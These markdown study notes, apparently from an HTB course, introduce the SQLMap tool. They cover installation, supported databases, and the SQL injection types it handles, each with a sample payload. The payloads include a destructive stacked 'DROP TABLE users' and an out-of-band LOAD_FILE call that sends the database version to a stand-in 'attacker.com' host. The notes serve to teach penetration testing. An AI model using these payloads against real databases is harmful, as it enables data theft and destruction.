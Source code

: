# SQLMap Overview
--------

- SQLMap is a common tool that is used for automating the process of detecting and exploiting SQL Injection vulnerabilities.

- Installation
```bash
sudo apt install sqlmap
```

- Confirm the installation
```bash
python sqlmap.py
```

## Supported Databases
SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:

![sqlmap-supported-db](https://raw.githubusercontent.com/hhphu/images/main/HTB/SQLMap/sqlmap-supported-db.png)

## Supported SQL Injection Types
- SQLMap supports the following types of SQL Injection:
	- B: Boolean-based blind `AND 1=1`
	- E: Error-based `AND GTID_SUBSET(@@version,0)`
	- U: Union query-based `UNION ALL SELECT 1, @@version,3`
	- S: Stacked queries `;DROP TABLE users`
	- T: Time-based blind `AND 1=IF(2>1,SLEEP(5),0)`
	- Q: Inline queries `SELECT (SELECT @@version) from`
	- Out-of-band SQL Injection `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\README.txt'))`

# Table of Content
-----
- [Running SQLMap on an HTTP Request](Running%20SQLMap%20on%20an%20HTTP%20Request.md)
